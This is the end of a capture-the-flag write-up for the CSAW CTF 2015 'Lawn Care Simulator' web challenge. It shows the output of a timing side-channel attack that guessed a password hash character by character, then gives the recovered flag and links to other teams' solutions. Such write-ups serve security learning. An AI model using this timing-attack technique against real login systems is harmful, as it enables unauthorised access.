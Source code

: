 ```
sending payload with password: 667e2176663---------------------
time for 3 - 3.274707
sending payload with password: 667e2176664---------------------
time for 4 - 3.27386
sending payload with password: 667e2176665---------------------
time for 5 - 3.272986
sending payload with password: 667e2176666---------------------
time for 6 - 3.27506
sending payload with password: 667e2176667---------------------
time for 7 - 3.274545
sending payload with password: 667e2176668---------------------
time for 8 - 3.273122
sending payload with password: 667e2176669---------------------
time for 9 - 3.290462

```

After *667e217666* time of responses stopped to change, so I've decided to try only with this (I've added some random chars to get 32 characters length of the whole hash) - and it was enough:

![Grab the flag]
(https://github.com/bl4de/ctf/blob/master/2015/CSAW_CTF_2015/Lawn_Care_Simulator_web200/lawncare03.png)


And the flag was: *gr0wth__h4ck!nG!1!1!*

(I don't know why it has worked just after 10 characters, but I suppose that there was some kind of pre-validation, which was not visible in the code and CTF organizers were able to determine valid solution a little bit earlier than after all guessed hash.)


## Other solutions

Very similar approach from _smoke leet everyday_ team:

https://github.com/smokeleeteveryday/CTF_WRITEUPS/tree/master/2015/CSAWCTF/web/lawncaresimulator

And totaly different and much more straightforward from _Alpackers_:

https://github.com/Alpackers/CTF-Writeups/tree/master/2015/CSAW-CTF/Web/Lawn-Care-Simulator



